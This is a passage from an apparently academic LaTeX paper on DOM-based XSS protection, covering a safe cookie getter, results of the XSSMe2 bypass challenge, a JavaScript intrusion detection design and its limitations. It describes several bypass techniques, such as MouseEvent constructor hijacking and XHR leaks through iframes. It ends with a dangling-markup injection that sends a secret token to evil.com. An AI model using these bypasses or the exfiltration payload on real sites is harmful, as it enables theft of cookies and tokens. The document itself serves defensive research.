      By calling \textit{getOwnPropertyNames} on the \textit{window} object, the code example utilized the possibility to gain hands-on-access to the existing HTML element constructor prototypes, namely in retrieving the necessary data of all existing elements. During our tests, we have noticed a bug in the current Firefox browser. It was the omission of the constructor for the \textit{head} element, which we have added manually and filed this bug for Mozilla development team to deal with -- note line 22 added as a hot-fix. After retrieving the constructors, we can access their prototypes and their properties, which are possibly prone to leaking sensitive content. Additionally, we applied this treatment for critical properties of the \textit{Text} constructor to make sure that even \textit{Text} nodes will not reveal cookie value as part of the script tag's inner text. Upon application of these measurements, the data leakage problem shall be deemed solved for the tested user agent. One must be aware that other browsers might provide slightly different interfaces. They can be easily added to the list of protected node properties but are not reflected by the code example for the sake of clarity. \\

      Allowing certain groups instead of blocking access for all callers constitutes the second task, which we consider more complicated but -- depending on the surrounding document's conditions -- still feasible. The attacker's objective is to get hands on the protected property \textit{document.cookie}. This property is available in two ways. First option is accessing the DOM property \textit{document.cookie} directly and, by reading it from the text property of the script tag, equipping it with a ``secret'' value. Second source is a leak we have chosen to implement on purpose to emulate an entirely bad-protected website that stores important data  not only in the DOM but also in the printed markup. This can be often observed in real life situations - for example when anti-CSRF tokens are printed in forms and as link \textit{href} suffixes, instead of being contained in private properties until they are needed.\\

      The code shown in Listing~\ref{lst:rbac-safe-method} demonstrates the chosen approach. First of all, we make sure that the property value of the placeholder for \textit{document.cookie} is carefully contained in a closure and can only be accessed by the method identifiable with its label \textit{Safe.get}, with a small exception of a planned leak via \textit{script} tag text content. The exemplary safe getter can be called solely by an event classified by the type \textit{click} and fired by an actual user interaction, rather than a generated click event. This is ensured by the test against the event property \textit{isTrusted}. A thrifty attacker would be able to forge this property by accessing the event prototype, so in order to exclude this possibility, we have frozen this property in the event constructor prototype, and therefore, it cannot be reset by a DOM method call and keeps the value assigned by the browser environment. Code snippet \texttt{o(MouseEvent.prototype, 'isTrusted', {configurable:false});} testifies to this reasoning. We can easily apply further checks. For instance, we can make sure that the clicked element has to match a certain ID value or other unguessable DOM properties assigned to the event constructor prototype. An attacker would have to use a whole set of browser bugs to bypass these checks. Note that we verify the event originality by several browser defined (thus hardened) and frozen properties. Even if one check fails due to a user agent check, at least one other property will be capable of detecting a bypass, allowing the protective script to react properly and block the actual cookie access. \\

      \subsubsection{Experimental Evaluation II}

      To prove feasibility with an empiric study, we decided to carry out yet another experiment, wrapped in a second security challenge labeled XSSMe2. During the challenge, the participants were allowed to inject arbitrary data into a fake website containing a protected security token. The participants were to again take the role of an attacker attempting to access, retrieve and exfiltrate this security token while our protective scripts were meant to keep them from doing so. A screen-shot of a state of having successfully defeated the challenge is shown in Figure~\ref{fig:xss-me-result}.\\

\begin{figure}[htb]
\centering

\includegraphics[width=0.8\textwidth]{./img/xss-me-figure.png}
\caption{Result from successfully solving the XSSMe2 Challenge}
\label{fig:xss-me-result}
\end{figure}

      Before publishing our challenge we were aware of the chance of seeing a large amount of bypasses. The script did not apply any form of server-side filtering, so attackers could submit JavaScript, Iframes, Java Applets and any other form of web content in their attempts to bypass the client-side protection functionality. As Listing~\ref{lst:rbac-approach-for-cookie} showcases, the data incoming via the GET parameter \textit{xss} is reflected in a fully unfiltered state. Neither certain characters are being stripped/replaced, nor do any of the aforementioned client-side protection mechanisms such as \textit{window.name} experience randomization. For \textit{editMode} we discussed in \cite{heiderich2011voteid}, the protection has been installed, too. The test-bed thereby represents a website, which is completely unprotected against any form of XSS attack.\\

\begin{lstlisting}[captionpos=b,label=lst:rbac-safe-method,caption=Proposal for a safe getter with caller verification]
<script type="text/javascript">
var Safe = {};
Safe.get = function() {
  var e = arguments.callee.caller;
  if(e && e.arguments[0].type === 'click'
    && e.arguments[0].isTrusted === true
    && e.arguments[0] instanceof MouseEvent) {
    return document.cookie
  }
  return null;
};
Object.freeze(Safe);
</script>
\end{lstlisting}

      We tested the discussed approach on the most relevant modern user agents available at that time, namely Internet Explorer 10, Firefox 7 and Chrome 14. The results were surprising: While we registered 12.176 attempts to break the DOM-based XSS protection approach, only 50 attempts were successful and an overwhelming majority of 49 among them could be fixed upon quick analysis and short examination. Up till now, merely one bypass category based on browser implementation glitches remains rather hard but possible to defeat (on Gecko based user agents). Next, we will describe the bypass categories we were able to fix. A short list of risks and bypasses we could not mitigate successfully by now, accompanied by the reasons for why this is the case will follow. After explaining our logic, we conclude as to why the above is not endangering the whole approach of specifying and building a DOM-based security implementation. We consider an overall of one fully valid bypass category to be sufficiently few for a novel defense approach, especially given the fact that the majority of  bypasses are reliant on browser-based implementation bugs rather than on defense mechanisms' design flaws which could be fixed by using experimental browser features and novel interception techniques.

      \begin{itemize}
	%
	\item \textbf{Leaking Document Objects} Despite our pursuits of setting the document property to null and encapsulating all sensitive and necessary properties by safe getters and setters, some user agents allowed document' access in different and unforeseeable ways. One bypass technique was based on leaking a fully operational document property containing all necessary and protected members of an event's targeted element by extracting its \textit{ownerDocument}. Although this property should have been implicitly overwritten, it was not and had to be removed manually. The fix was accomplished by iterating over the enumerated members of \textit{Event.prototype}. Furthermore, we started a recapitulation of the DOM constructors existing for the variety of available HTML elements and we now treat their potentially leaky child properties. These included \textit{innerHTML}, \textit{innerText}, \textit{text}, \textit{data}, \textit{textContent}, \textit{outerHTML}, \textit{outerText} and many others. Note that in a real life scenario, access would not be categorically prohibited but controlled by the implemented RBAC system.
	%
	\item \textbf{Spoofing clicks via click()} The proposed approach employed the \textit{Event.prototype\\
.isTrusted} property, which is supposed to indicate if an event is originating from a ``real click'' or being constructed via \textit{document.createEvent} or the proprietary methods \textit{fireEvent()}~\footnote{MSDN, \textit{fireEvent Method}, \url{http://msdn.microsoft.com/en-us/library/ms536423(v=vs.85).aspx} (Dec 2011)} or \textit{click()}~\footnote{MSDN, \textit{click Method}, \url{http://msdn.microsoft.com/en-us/library/ms536363(v=vs.85).aspx} (Dec 2011)}. Unfortunately, when called on Internet Explorer, the \textit{click()} method automatically sets \textit{isTrusted} to \textit{true}, even though arbitrary JavaScript can call the click method of any existing DOM node by just calling element.click(). This is clearly an implementation flaw. The current proposal of the DOM protection script overwrites and freezes the event property by modifying its prototype. Only a trusted event can reset it from empty or \textit{false} to \textit{true}. The bypass was successfully mitigated under these premises.
	%
	\item \textbf{Overwriting frozen Properties} The approach we put forward has carefully frozen the Safe object, sealing its members and methods and protecting them from access and modification. Nevertheless, it turned out that a creation of a global property and sealing it not only by applying \textit{Object.freeze()} and \textit{Object.seal()} or even \textit{Object.preventExtensions()} but fully defining it as child property of \textit{window} with \textit{Object.defineProperty()} and the \textit{configurable:false} descriptor was necessary. Several of the submitted attack vectors have overwritten the proposed safe getter and thereby gained full control over the property to protect by our implementation. The current approach incorporated particular lesson learned from this implementation glitch and fully freezes all properties to make sure even re-freezing and deletion, as well as low-level access with \textit{Components.lookupMethod()}, cannot interfere with presumed positive outcomes. 
	%
	\item \textbf{Iframe injections and Object Tags} Since their invocation by Netscape in early 1990s, Iframes have widened the attack window for web-based scripting strikes. Even in the DOM-based security implementation we propose, Iframes made it substantially difficult to keep the security promise of sealing and protecting DOM properties from unsolicited access. Several of the attack vectors we have received in response to our challenge, have utilized Iframes to execute JavaScript URIs and create a fresh DOM lacking protective measurements. We alleviated these kinds of bypasses by disabling the methods used by the malicious Iframes, such as DOM traversal and manipulatory methods. So far, the proprietary DOM event \textit{DOMFrameContentLoaded} is the most important step in limiting the capabilities of malicious Iframes in advance of their deployment of calamitous payload~\footnote{MDN, \textit{Gecko-Specific DOM Events}, \url{https://developer.mozilla.org/en/Gecko-Specific_DOM_Events} (Dec 2011)}. This event fires as soon as Iframe's content finishes to load -- including scenarios involving \textit{data:} and JavaScript URIs. By removing or restricting the Iframe to the time window between the event being fired and the Iframe content actually executing its payload, we have effectively mitigated problems caused by Iframes and similar elements. Unfortunately, as of now the event is only available on Gecko-based user agents.
	%
	\item \textbf{MouseEvent Constructor Hijacking}. It has come to our attention that it is possible to bypass the safe getter event validation by creating a crimson object:\\
 \texttt{var MouseEvent=function+MouseEvent(){};MouseEvent=MouseEvent; \\
var test=new MouseEvent(); test.isTrusted=true; test.type='click'}.\\
 Upon fully overwriting it and applying it with properties indicating its type to be of the string \textit{click} and the \textit{isTrusted} property is declared true, one makes this object an instance of \textit{MouseEvent}. The newly created object is then used to call a function firing a doctored click event while attempting to access the \textit{cookie} property. The validation method successfully checked the event type, the ``trustability`` of the event and the object type and found it to be the hijacked but authentic \textit{MouseEvent} object. Thereby all three checks were bypassed and the cookie property was unveiled for arbitrary function calls. Our actions towards fixing this problem initially took to sealing the \textit{MouseEvent} constructor, assuming that this would keep the attacker from hijacking the event and overwrite properties of the event constructor's instances. Unfortunately, this did not bring the result we wanted. The final and successful fix included creating a new event based on \textit{MouseEvent}, sealing this event and having the safe getter check against its properties and originating constructor. After this fix has been installed, no further bypasses making use of this technique were discovered.
	%
	\item \textbf{Same-URL XMLHttpRequests (XHR)}. A subtle yet effective bypass technique was introduced in a very early stage of the testing phase: The injected JavaScript performed an \textit{XMLHttpRequest} on an empty URL, thereby requesting its originating page with the secret property. This did not effectively bypass the protection of the DOM property \textit{document.cookie}. Meanwhile, we made sure it appeared in the printed markup code, so as to make the test scenario more realistic in a sense of common developer mistakes and unintended and in real life often rather unproblematic content leakage. This attack enables the attackers to get hands on the property values by simply applying a regular expression on the returned \textit{responseText} property after the XHR finished and read the data considered to be secret and protected. Our test setup made it very easy for the attackers to solve the challenge, but we wanted to find out what methods the testers would use to obtain the coveted content. In a real-life attack scenario, an attacker would not obey the rules, so this softening of the guidelines was considered useful in providing us with additional insights. We have managed to fix this XHR-based content leakage problem partly by wrapping the \textit{XMLHttpRequest} object as well as the corresponding \textit{ActiveXObject} property for Internet Explorer into a safe getter, consequently nulling the DOM properties. It is recommended for a safe DOM implementation to apply a RBAC system to manage access to the XHR and similar objects allowing to generate additional HTTP requests and thereby leak potentially sensitive data. 
      \end{itemize}

      We encourage the reader to visit challenge website and review the corrected code samples, including the aforementioned fixes. The vital code fragments are shown in Listing~\ref{lst:rbac-corrected-safe-method} and Listing~\ref{lst:rbac-corr-approach-for-cookie}. 

\begin{lstlisting}[captionpos=b,label=lst:rbac-corrected-safe-method,caption=Corrected safe getter with caller verification; A custom sealed event prevents an attacker from overwriting it and thereby authenticates the click as ``real'']
<script type="text/javascript">
var Safe = function() {

  // store a private copy of document.cookie
  var cookie = document.cookie;

  // set leaking methods and cookie to null
  document.cookie=document=XMLHttpRequest=ActiveXObject=null;

  // evalute caller and manage access
  this.get = function() { 
    var ec = arguments.callee.caller;
    var ev = ec.arguments[0];
    if(ec && ev.type === 'click'
      && ev.isTrusted === true
      && ev instanceof MyEvent) {
      return cookie;
    }
    return null;
  };       
};
Object.defineProperty(window, 'Safe', {value: new Safe, configurable:false});
</script>
\end{lstlisting}

      Marginally small number of the attacks we were not able to easily fix with browser-only methods, can be attributed to the fact that we did not only assign a DOM variable with the sensitive value to protect, but also printed it in the markup to emulate a real-life scenario of a poorly maintained and prone to web-based scripting attacks website. This would have to be a very unlikely occurrence for a well-secured website using the DOM-based XSS protection, which we implemented as an additional security layer. The following list discusses those outstanding three bypass techniques, submitted by K. Kotowicz, M. Kinugawa and R. Shafigullin.\\

      \begin{itemize}
	\item \textbf{XMLHttpRequest from Iframe-based JavaScript URIs} One of the most prominent bypass patterns submitted by the testers consisted of Iframe tags being applied with a \textit{src} attribute pointing to a JavaScript URI or a non existing page. This effectuated in the web server emitting a 404 error page void of the necessary protective JavaScript code. Both tricks - a JavaScript URI such as \texttt{javascript:"<html />"} or the 404 error URL, allowed the Iframe to access the DOM of an untreated website and thereby get access to native and unwrapped \textit{XMLHttpRequest} objects. Those were then initialized to request content of the challenge website, which had the secret code in its printed markup. After requesting the website data, the \textit{responseText} property of the \textit{XMLHttpRequest} instance was analyzed and the ``secret'' value could be elicited via regular expression or substring extraction. We deployed two separate fixes against this kind of attack. The first initially covered the 404 error site-bypass and involved setting global \textit{X-Frame-Options: DENY} headers to forbid the contestants to use Iframes linking to same domain sites not applied with the protective script. Having realized that this fix does not comply with the rules of the experiment to be reliant on client-side protection, nor does it concur with easy and real-life usability, we have decided to develop a more effective yet deployment-friendly way to protect against Iframe attacks within the DOM method \textit{document.implementation.createHTMLDocument()}. We will elaborate on that technique in Section~\ref{subsubsec:6.7.2.taming_javascript_uris}. 
	%
	\item \textbf{XMLHttpRequest after Redirect to data URIs} Kotowicz has submitted an attack vector consisting of a Base64 encoded string used in a redirect to a data URI operation. The code embedded in the data URI executed a XHR to the originating website using the DOM property opener. Surprisingly, Firefox and Gecko-based user agents set the domain context for data URIs to the one from where the data URI was initially coming from. This is markedly unusual and uncommon in other user agents supporting data URIs. The fact that there is effectively no way to get hands on the objects and properties used in the context of the data URI, has made it impossible for us to find an exclusively client-side fix. Since the data URI's XHR can only access printed secret and did not deliver a way to break the actual property freezing or helped in breaking the protection delivered by the safe getter, we decided to consider this attack tolerable. It is  expected that Firefox changes the way domain contexts are being exchanged between HTTP URLs and data URI on automatic redirects. In case this glitch is fixed, the attack will be gone. In Section~\ref{subsubsec:6.7.2.taming_javascript_uris}, we will discuss an additional fix which works on Firefox and Gecko-based user agents and is capable of allowing assignment control over the \textit{location} object before they are delegated to the browser and cause a redirect.
	%
      \end{itemize}

\begin{lstlisting}[captionpos=b,label=lst:rbac-corr-approach-for-cookie,caption=Corrected DOM-based RBAC approach to handle document.cookie access; After sealing HTML element constructors, the Object.defineProperty method itself is being removed for enhanced security]
(function(){
  var i, j, x, y, o = Object.defineProperty, f = function(){return null}; 
  var killIframe = function(e){
    e.target.parentNode.removeChild(e.target);
  };
  window.addEventListener("DOMFrameContentLoaded", killIframe, false);
  o(window, 'MyEvent', {value:MouseEvent, configurable:false});
  o(MyEvent.prototype, 'isTrusted', {configurable:false});
  for(var i in j=[
    'HTMLElement',
    'HTMLAnchorElement',
    'HTMLAppletElement',
    'HTMLAreaElement',
    'HTMLMediaElement',
    ...
    'SVGUseElement',
    'SVGViewElement'
  ]) {
    try {
      for(var x in y=window[j[i]].prototype){
	if(x !== 'parentNode' && x !== 'removeChild') {
	  o(y, x, {get:f, configurable: false});
	}
      }
    } catch(e) {}
  }
  o(window, 'document', {value:null, configurable:false});
  o(window, 'window',   {value:null, configurable:false});
  o(Object, 'defineProperties', {value:f, configurable:false});
  o(Object, 'defineProperty', {value:f, configurable:false});
})();
\end{lstlisting}

      \subsubsection{Concluding Experiment II}

      Drawing conclusions from this experiment, we are proud to have proved that a purely DOM-based security solution of installing a DOM-based RBAC is feasible and easy to implement on two of the major contemporary user agents. With few markup and JavaScript modifications, a meta- programming layer leading to a full stack IDS and RBAC layer can be realized and easily extended with further functionality. %The following Table~\ref{tbl:rbac-performance} shows the results of our performance evaluation. We mainly showcase the measurements of the performance overhead for a modified cookie getter in comparison to direct access to this DOM property. We executed a script performing 1.000.000 cookie access' attempts and measured the timing differences between failed access, successful access and consequently direct access to document cookie. We noticed that Firefox handles delegated access to a locked and frozen document.cookie properties significantly faster than direct access, as the property once stored in the anonymous function scope provides better getter performance than requesting the property directly from the user agent core scripts. The early version of Internet Explorer 10 did not show this behavior. There the direct access to \textit{document.cookie} was slightly less time-consuming than the getter controlled access. \\

      This final step of the experiment outlines another positive aspect of this approach, evident when one weighs it against complex and expensive server-side filtering solutions. It must be clearly stated that the additional overhead for successful access compared to blocked access is only affecting the users' client software for failed attempts. The deploying server is neither affected as it would be the case with a server-side IDS or tools such as the HTMLPurifier, nor does this represent legitimate script usage.

    \subsection{Building a JavaScript IDS/IPS}
    \label{subsubsec:6.6.5.building_a_javascript_ids_ips}

     IDS and IPS (Intrusion Detection System/Intrusion Prevention System) residing on various layers have a long history in IT security research. Except from early and rather fragile JavaScript sand-boxing approaches, no JavaScript or DOM-based IDS/IPS approaches have been discussed in detail so far. The DOM-based security solution we propose has a variety of advantages in regards to the visibility of obfuscated and ambiguous attack vectors. Since the DOM is capable of connecting the awareness of arbitrary changes with an event, it is possible to install an IDS that is more powerful than a comparable system residing on a different layer. One shall acknowledge several reasons justifying this statement: 

      \begin{itemize}
	\item \textbf{Visibility Benefits} A DOM-based IDS can see attacks that no other IDS would be able to notice or detect. Examples illustrating this include DOMXSS attacks covered in Section~\ref{subsubsec:5.4.4.domxss}, as well as the attacks against Flash files, which use the \textit{location.hash} to directly pass parameters invisible for a network-based or server-side IDS. Attacks targeting client-side plug-in code via DOM can easily and exclusively be detected by the DOM-based IDS -- existing implementations of server-side systems possess low to no visibility over those attacks without assistance from the user agent itself. Furthermore, a DOM-based IDS is capable of protecting documents not residing on classic server infrastructures, local files included. It is possible to expand the approach of a DOM-based IDS to work with server-side JavaScript implementations such as Node.JS~\footnote{\textit{Node.JS}, \url{http://nodejs.org/} (Dec 2011)}. A DOM-based IDS can be utilized on the server by installing an instrumented browser alongside an automated testing tool like Selenium WebDriver in combination with a headless virtual display~\footnote{Goldberg, \textit{Python - Headless Selenium WebDriver Tests using PyVirtualDisplay}, \url{http://coreygoldberg.blogspot.com/2011/06/python-headless-selenium-webdriver.html} (June 2010)}. This way, communication using JSON or similar data exchange between two instances can be secured on a similar level. This is the case even if both are incapable to make use of a DOM-based IDS. Yet another benefit of a client-side IDS is marked by this universal deployment ability.
	  %
	\item \textbf{Obfuscation Resilience} A DOM-based IDS is not affected by any level obfuscation pertaining to client-side attacks. It is capable of wrapping native and user-defined functions and methods. Therefore, it can perform parameter inspection instead of being forced to apply heuristics and patterns to incoming unprocessed string data. The IDS can perform type and origin checks to ascertain that the inspected data is of sufficient integrity and has been, for instance, instantiated from a trusted object. As discussed in Section~\ref{subsubsec:6.6.3.javascript_and_dom_based_rbac}, the IDS can assure integrity of accessor methods and communicate results to either an IPS or RBAC installation for further reaction to potential integrity violations. All those inspections and interactions happen on the same layer that the attack would be carried out on, thus no lack of visibility can interfere with the prevention results of detection and intrusion. 
	  %
	\item \textbf{Performance and Availability Benefits} Compared to its siblings residing on the network layers and server-side environments, a DOM-based IDS is fast and dominates in scalability. While server-side IDS might face load levels depending on user input and the quantity of requests, a client-side IDS can affect only the actual current user. A versatile attacker can easily abuse a distributed network of hosts to perform a large quantity of requests. In doing so, he can slow the whole infrastructure down by requesting data capable of causing high load average for the IDS component. In May 2010, Sullivan has published an article elaborating on ReDoS attacks, in which he describes how using maliciously crafted strings targeting insecure and sloppily written regular expressions can cause denial of service and overflow attacks~\footnote{Sullivan, \textit{Regular Expression Denial of Service Attacks and Defenses}, \url{http://msdn.microsoft.com/en-us/magazine/ff646973.aspx} (May 2010)}. Prior to that, in 2009, Reichman and Weidman have presented on ReDoS attacks against web applications, identifying several new attack vectors and flawed regular expressions formerly advertised by OWASP as secure and ready-to-use~\footnote{Reichman et al., \textit{Regular Expression Denial of Service}, \url{http://www.checkmarx.com/Upload/Documents/PDF/Checkmarx_OWASP_IL_2009_ReDoS.pdf} (2009)}. Undoubtedly, a client-side IDS can be affected by the same issues. Over the course of our research, we have identified several browsers as vulnerable against ReDoS via HTML5 client-side validation~\footnote{Heiderich, \textit{Opera HTML Redos Attack}, \url{http://html5sec.org/?redos} (Aug 2010)}. Nevertheless, the level of magnitude a DoS attack against a client-side IDS has compared to the impact of a large scale attack against a server-side solution (potentially affecting millions of clients) is comparably low. Additionally, most modern user agents are applied with a technology labeled hang-resistance and can detect long-running scripts and offer stopping them or reloading the website~\footnote{IEBlog, \textit{Hang Resistance in IE9}, \url{http://blogs.msdn.com/b/ie/archive/2011/04/19/hang-resistance-in-ie9.aspx} (April 2011)}. Further thoughts on performance considerations for client-side protection systems are noted in Section~\ref{subsubsec:6.6.8.performance_considerations}.
	  %
	\item \textbf{Maintenance and Deployment} A DOM-based IDS is most likely consisting of open sourced components entirely composed in JavaScript or comparable scripting languages. Therefore the transparency regarding the inner workings can be leveraged to optimize the robustness and quality of attack detection signatures and behavioral heuristics. With a centralized deployment system for novel versions of the defensive library and IDS/IPS, quick and effective deployment can be guaranteed. This can be compared to the update mechanisms existing for Firefox extensions: In case a novel attack is being mitigated by a new NoScript release, users are prompted to install the updated version with every browser restart. A purely JavaScript and DOM-based IDS/IPS can even update silently without any prompts. Websites deploying their own and possibly customized version of the tool can freely decide whether and when to deploy an updated version or alternatively trust a Content Delivery Network (CDN) to take care of these duties.
	  %
      \end{itemize}

    The next paragraphs will supply real-life use cases for our approach, installing non-complex but efficient wrappers around the functionality of an existing security-relevant open source product. A first actual implementation of the JavaScript IDS approach can be observed in IceShield~\cite{heiderich2011iceshield}. There, the proposed approach is used to allow Malware to execute until the point of payload deployment for classification purposes and provide real-time protection for the affected user at runtime. 

      %\subsubsection{Hardening jQuery}
      %\label{subsubsubsec:6.6.6.2.hardening_jquery}

      %\subsubsection{OWASP ESAPI for JavaScript}
      %\label{subsubsubsec:6.6.6.3.owasp_esapi_for_javascript}

    \subsection{Detectability and Footprint}
    \label{subsubsec:6.6.7.detectability_and_footprint}

    Depending on the use case, attacker's ability to facilely detect if a protective library is in use on his target can be of crucial importance. Attackers have, once capable of executing arbitrary script code, a wide range of possible detection and fingerprinting techniques at hand to decide whether they would be operating in a protected DOM or rather an unprotected document object. One of those techniques, among others used in existing web malware we analyzed, is to observe the value returned by the \textit{toString()} call on a possibly modified method; our implementation of IceShield uses a simple trick to hide the fact that native functions and host objects were hooked and overwritten though. We have achieved that by overwriting the \textit{toString} property with a function returning a string indicating the method is of native origin. Afterwards, we have overwritten \textit{toString.toString.toString} with \textit{toString.toString} to guarantee that the attacker cannot call the \textit{n}th nested \textit{toString} instance to detect benign spoofing. This situation is demonstrated by the code in Listing~\ref{lst:iceshield-toString-mimicking}. 

\begin{lstlisting}[captionpos=b,caption=Approach for effective toString mimicking, label=lst:iceshield-toString-mimicking]
<script type="text/javascript">
  alert.toString = function(){ 
    return 'function alert() { [native code] }'
  }
  alert.toString.toString = function(){ 
    return 'function toString() { [native code] }'
  }
  alert.toString.toString.toString = alert.toString.toString;
</script>
\end{lstlisting}

    In a malware detection and prevention scenario, it is mandatory to allow a browser malware to execute payload for some time until the dangerous parts can be clearly identified and consequently stopped from executing. The goal of IceShield was not only to prevent malware from harming users, but also to collect behavioral data of the possibly malicious code. Important data shall be returned for later analysis and machine-learning-based dynamic heuristics for permutations' detection. Despite these and further cloaking measurements, a sophisticated attacker was still able to determine the presence of IceShield by performing several timing-oriented operations. One example was to perform comparisons of the timing values between method- and operator-driven string  concatenation. If a major difference between the repeated concatenation using the plus operator and the \textit{String.concat()} method was registered, the method overwriting on \textit{String.concat()} could successfully be detected. \\

    Stealthiness is not a success determinant for our current goal of freezing the DOM for user security's sake. The aim of the frozen DOM is not to detect zero-day attacks but to provide a robust protection mechanism against a broad range of web-based scripting attacks. Additionally, a larger variety of attacks can still be analyzed before they are being carried out by the Iframe ``proxification'', which we discuss in Section~\ref{subsubsec:6.7.3.dom_proxies_enabling_whitelists}. Our solution is capable of sending arbitrary cross-domain content through a proxy instance in advance to its rendering by the user agent. We thereby outsource the analysis and potential detectability problems to the proxy tool, while keeping our DOM-based tool focused on its tasks and hitting the bull's eye in the dimensions of robustness, comprehensiveness regarding possible leaks and bypasses, as well as performance optimization for a better user experience. We have approached the latter by avoiding \textit{document.write} calls using unbalanced markup. We almost exclusively used the highly performance-optimized \textit{innerHTML} property for markup mappings throughout the sanitation process. The exact procedures and impact of these will be discussed in Section~\ref{subsubsec:6.7.2.taming_javascript_uris}.\\
    
    \subsection{Performance Considerations}
    \label{subsubsec:6.6.8.performance_considerations}

    The amount of JavaScript necessary to weave a protective coat around the DOM and allow the \textit{document.implementation} based pre-flight inspection (PFI) while delimiting the existing DOM properties and defining a simple safe getter, is no more than seventy lines of code. In contrast, HTMLPurifier, a PHP-based server-side filter tool, consists of no less than 12K lines of code in its version 4.3.0. A more granular version of our prototype requires about 120 lines of client-side code to have the ability to check against a white-list of tags and attributes, validate against basic document grammar, and, most importantly, deliver comparable protection. Not only are client-side XSS protection mechanisms faster but they require less code, have better visibility, and are immune against charset-based obfuscation and other bypasses functioning against server-side XSS filters. Ultimately, a client-side XSS protection library minimizes the costs for a website owner because no complex calculations have to be done on the server-side: All the protective work is being outsourced to clients.\\

    Our performance measurements have given rise to some surprising results. Table~\ref{tbl:rbac-performance} demonstrates the outcomes of our performance evaluation, which is mainly consisting of monitoring the performance overhead of a modified cookie-getter compared with the direct access to this DOM property. We executed a script performing 1,000,000 cookie access attempts and measured the timing difference between failed access, successful access, and consequently direct access to the document cookie. We noticed that Firefox handles delegated access to a locked and frozen \textit{document.cookie} properties significantly faster than direct access and the property once stored in the anonymous function scope provides better getter performance than requesting the property directly from the user agent core scripts. The early version of Internet Explorer 10 we used for testing did not mirror this behavior. There, the direct access to \textit{document.cookie} was slightly less expensive than the getter controlled access. \\

\begin{table}
  \centering
    \begin{tabular}{| l | l | l | l |}
    \hline
    UA & Failed access & Successful access & Direct access  \\ \hline
    FF7  & 5811ms & 7851ms  & 10873ms \\ \hline
    IE10 & 9003ms & 19544ms & 15322ms \\ \hline
    \end{tabular}
    \label{tbl:rbac-performance}
    \caption{Benchmark results for 1.000.000 cookie access attempts}
\end{table}

    Depending on the implemented checks, the granularity of the RBAC architecture and the complexity of the IDS rules and filters, the performance might suffer. Luckily and importantly, the impact is expected to be very low. This is due to the fact that modern user agents keep optimizing their JavaScript engines and DOM implementations for performance, as well as the entirety of the checks being performed on the client-side. No additional server performance and CPU cycles will be consumed with increasing complexity of the tool's capabilities. As smart-phones, mobile devices and desktop computers are becoming significantly faster and faster in time, the actual noticeable overhead is prognosticated to be low to non-perceivable for the user. Additionally, parts of the IDS system requiring CPU-heavy string and regular expression operations can be outsourced to a JavaScript \textit{Worker} object, thus avoiding interference with user's browsing experience. In essence: The general trend towards very fast JavaScript parsers and engines paired with increasing CPU performance on the targeted devices, hardware acceleration for HTML content and first experimental approaches using 3D hardware and \textit{canvas} elements for load heavy calculations~\footnote{IEBlog, \textit{HTML5, Native: Third IE9 Platform Preview Available for Developers},\url{http://preview.tinyurl.com/23wkapo} (June 2010)} all come together in supporting our approach of installing effective and tamper-resistant DOM security in the DOM itself.

    \subsection{Security Considerations}
    \label{subsubsec:6.6.9.security_considerations}

      At present state of library implementation, older user agent's lack of full support is the most important limitation of our approach to mitigating XSS exploits on the layer where they execute. It is possible to create a shadowed DOM on previous Internet Explorer versions, which can be obtained by the use of proprietary objects such \textit{ActiveXObject} instantiated with the parameter \textit{htmlfile} or, depending on the document MIME type, with \textit{xmlfile}. However, older versions of Firefox unfurnished with \textit{document.implementation.createHTMLDocument} support will require heavy customizations of the tool if we want the protection and pre-flight inspection (PFI) features to work properly. \\

      Gecko-based browsers support a property called \emph{Components}, providing a method called \textit{lookupMethod}. Meant for browser extensions, this proprietary feature is giving them ability to extract the original host object, even in case it was overwritten by a script running in domain context. In our case, \textit{Components.lookupMethod} might compromise the DOM-based protection library and hand out a possibility of original host objects' extraction to attackers. We provisionally disable \textit{Components.lookupMethod} by settings its \textit{\_\_proto\_\_} to null, knowing that this gives way to potential security problems for several Firefox extensions. To limit unprivileged scripts' access to this method, a bug has been filed in Mozilla bug-tracker~\footnote{Weinberg, Z., \textit{Components.lookupMethod should not be accessible to page JS}, \url{https://bugzilla.mozilla.org/show_bug.cgi?id=693733} (Nov 2011)}. \\

      Another limitation that has not been tackled in the current prototype is a special form of markup injection based on unclosed attributes, which may potentially lead to data leakage of markup fragments from the injected site. While this attack is possible on websites not using our tool, the technique the prototype is using has thus far been incapable of stopping this kind of attack. Consider the following injection happening on an arbitrary website: 

      \begin{verbatim}
      <div>benign markup</div>
      <img src='//evil.com/steal.php?stolen=<a href=
      "deleteuser.php?token=123456secret">O'Malley</a>
      \end{verbatim}

      The injection ensures that the half-open image tag's source attribute will cover everything from the beginning of single quote inside the injected image tag to the second single quote in the string O'Malley. Thereby, the image source will be a fully qualified URL \textit{http://evil.com/steal.php?stolen=<a href="deleteuser.php?token=123456secret">O}.\\

